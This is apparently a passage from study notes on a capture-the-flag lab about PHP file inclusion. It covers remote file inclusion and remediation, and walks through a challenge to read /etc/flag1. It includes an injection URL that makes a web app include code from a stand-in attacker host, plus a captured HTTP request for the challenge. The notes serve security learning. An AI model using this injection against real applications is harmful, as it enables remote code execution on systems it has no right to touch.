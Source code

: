 - Technique to include remote files into an application
- Inject external URL into include function call
- for php 'allow_url_fopen' needs to be set to on
- This attack allows for RCE as we can send content instead of just reading files on disk
	- Sensitive Information Disclosure
	- Cross-site Scripting (XSS)
	- Denial of Service (DoS)


## RFI Steps

http://attacker.thm.cmd.txt
```
<?PHP echo "Hello THM"; ?>
```

- Attacker can send "http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt"
- The url is then passed into the include function
- The web app sends GET request for this page
- Receives response and executes, returning the result to the attacker

# Task 7: Remediation

1. update things
2. Turn off PHP errors to avoid leaking information
3. Web Application Firewall (WAF)
4. Disable PHP features that cause vulnerabilities if you don't need them
5. Allow only protocols and PHP wrappers that are needed
6. Never trust user input and validate
7. allow and deny lists for file names and locations

# Task 8: Challenge

1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files

1. Capture Flag1 at /etc/flag1

The input form does not work and you must craft your own POST request
- First try to get a successful request to work
- Use burpsuite to intercept the usual request
- Convert manually to a POST request

```
GET /challenges/chall1.php?file=welcome.php HTTP/1.1
Host: 10.10.160.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.160.167/challenges/chall1.php?file=welcome
Upgrade-Insecure-Requests: 1
```
